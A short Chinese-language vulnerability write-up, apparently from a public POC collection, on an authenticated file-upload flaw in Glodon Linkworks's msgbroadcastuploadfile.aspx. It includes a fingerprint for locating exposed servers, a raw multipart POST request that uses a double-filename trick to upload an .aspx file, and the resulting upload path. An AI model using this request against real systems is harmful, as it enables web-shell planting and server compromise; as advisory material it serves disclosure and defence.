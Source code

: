 # 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

web.body="/Services/Identification/"

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1691730736125-bbb199fa-01fb-4790-b2a7-d813481d8d88-20230812091116146.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![img](../../../.vuepress/public/img/1691801728377-50f7e7cb-080f-47fa-9e3d-ad9666fc99c8.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```php
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![img](../../../.vuepress/public/img/1691733300613-63fefc8c-2e2d-478e-97b8-01ce3f9daf56.png)

```php
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![img](../../../.vuepress/public/img/1691802188135-636da27c-837c-432a-88bc-2e215572b2af.png)